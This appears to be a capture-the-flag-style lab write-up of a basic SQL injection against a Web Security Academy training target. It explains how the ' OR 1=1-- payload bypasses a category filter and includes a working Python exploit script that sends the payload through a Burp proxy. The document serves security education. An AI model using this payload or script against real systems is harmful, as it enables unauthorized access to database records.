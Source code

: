 ```yaml
---
title: 'SQLi Lab 1'
description: 'Exploiting a basic SQL injection vulnerability to retrieve hidden data.'
---
```



## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

<div style="text-align: justify;">
  In this lab, I explored how a simple SQL injection (SQLi) vulnerability in the `WHERE` clause of an SQL query can lead to information disclosure. By injecting a classic `' OR 1=1--` payload into a URL parameter, I was able to bypass category filters and extract all records from the database. Despite its simplicity, this technique is highly effective when user inputs are not properly sanitized.

  This exercise reinforced how even the most basic SQLi attack vectors can severely undermine application logic, especially in web apps that rely on direct input embedding into database queries. It’s a reminder that developers must use parameterized queries or ORM-based access to prevent such issues.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The app filters products based on the `category` parameter in the URL.
- This value is directly embedded into the SQL `WHERE` clause.
- No sanitization or parameterization is performed.
- The injected payload `' OR 1=1--` forces the condition to always evaluate true.
- The server responds with **all** products in the database.
- The script confirms success by searching for a known product name in the response.

<Aside>
  You may need to update the product name `"Folding Gadgets"` in the script, depending on the lab instance.
</Aside>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Folding Gadgets" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'+OR+1=1--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")
```


<Comment />

